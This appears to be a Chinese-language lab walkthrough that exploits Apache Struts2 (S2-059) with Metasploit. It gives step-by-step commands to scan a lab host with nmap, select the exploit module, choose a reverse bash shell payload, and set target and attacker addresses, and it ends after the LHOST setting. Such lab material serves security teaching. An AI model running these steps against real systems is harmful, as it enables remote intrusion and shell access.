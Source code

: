## 攻击靶标

切换到攻击者主机

输入以下指令
sudo apt install -y metasploit-framework


sudo msfdb init


msfconsole


db_status


workspace -a demo
db_nmap -p 29551 192.168.56.216 -n -A


search struts2 type:exploit


### 查看 exp 详情
####  可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
info 2

### 继续完善搜索关键词
search S2-059 type:exploit

# Matching Modules

###  使用上述 exp
use 0

### 查看 exp 可配置参数列表
show options

### 查看可用 exp payloads
show payloads

### 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

### 配置 exp 参数
### 确保所有 Required=yes 参数均正确配置

### 靶机 IP
set RHOSTS 192.168.56.103
### 靶机目标端口
set rport  29551          
### 攻击者主机 IP
set LHOST  192.168.56.214 
